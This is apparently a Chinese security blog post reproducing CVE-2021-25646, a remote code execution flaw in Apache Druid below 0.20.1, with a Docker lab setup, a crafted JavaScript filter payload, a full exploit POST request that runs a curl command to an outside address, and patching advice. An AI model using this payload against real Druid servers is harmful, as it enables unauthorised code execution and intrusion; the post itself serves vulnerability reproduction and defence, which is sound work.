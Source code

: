 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ToGaV-wR28Cx9K-aBC7Lyg)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****DesM0nd****@Timeline Sec  
**

**本文字数：997**

**阅读时长：2～3min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Druid 不仅是一个数据库连接池，还包含一个 ProxyDriver、一系列内置的 JDBC 组件库、一个 SQL Parser。  

支持所有 JDBC 兼容的数据库，包括 Oracle、MySql、Derby、Postgresql、SQL Server、H2 等。

**0x02 漏洞概述**  

  

**编号：CVE-2021-25646**  
Apache Druid 包括执行用户提供的 JavaScript 的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在 Druid 0.20.0 及更低版本中，经过身份验证的用户可以构造传入的 json 串来控制一些敏感的参数发送恶意请求，利用 Apache Druid 漏洞可以执行任意代码。  

**0x03 影响版本**  

  

Apache Druid < 0.20.1  

**0x04 环境搭建**  

  

Apache Druid:0.16.0

```
参考现有的低版本druid
docker pull fokkodriesprong/docker-druid
docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid
```

**0x05 漏洞复现**  

  

访问 8888 端口, 进入 Druid console

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjalh3Xrz6WyOjDZnNQPRKV6QlSdLJ0uZBjQ9u3jz3FicCQ1ibLV0ibJJdMbK7oaIkkXicYnuLGZzSaSA/640?wx_fmt=png)

点击 Load data -> Local disk  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjalh3Xrz6WyOjDZnNQPRKVxTT9x5A1M6CrqWQuGV8NGiaZpuuTlzqUdGoQTbZpOtQlKq6GvILTiaaQ/640?wx_fmt=png)

填入

**Base directory:**  

quickstart/tutorial/  

**File filter:**  

wikiticker-2015-09-12-sampled.json.gz  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjalh3Xrz6WyOjDZnNQPRKVKLuy8ZPFSryhcfXW2JWulmiaSfC8UbiaJiao9b5FzXKIGAxibbRia9kY6DQ/640?wx_fmt=png)

一直点击 next 到 filter 项（设置步骤可参考：https://druid.apache.org/docs/latest/tutorials/index.html）  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjalh3Xrz6WyOjDZnNQPRKVDUjd6ZQwXpibJ5YaEPuJZ6k1CE1x6ap3e2GMzM12wakks1XUSm6Gvsw/640?wx_fmt=png)

抓包修改 filter 为  

```
{
    "type":"javascript",
    "function":"function(value){return java.lang.Runtime.getRuntime().exec('curl ip:8000')}",
    "dimension":"added",
    "":{
    "enabled":"true"
    }
}
```

对应 post 包为（执行的命令：curl ip:8000）  

```
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: tls.com:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 623
Origin: http://tls.com:8888
Connection: close
Referer: http://tls.com:8888/unified-console.html


{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('curl yourip:8000')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"cacheKey":"79a5be988bf94d42a6f219b63ff27383"}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjalh3Xrz6WyOjDZnNQPRKVV4EZicsxibMjmsCZibDtRCj3xbSjVsFYkhUac6rGs0n3aQqTicJAAz5Gew/640?wx_fmt=png)

**0x07 修复方式**  

  

升级 Apache Druid 到最新的版本

对 Apache Druid 进行权限控制，只允许受信任的主机访问集群服务器

```
参考链接：
```

https://github.com/Fokko/docker-druid

https://druid.apache.org/docs/latest/tutorials/index.html

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行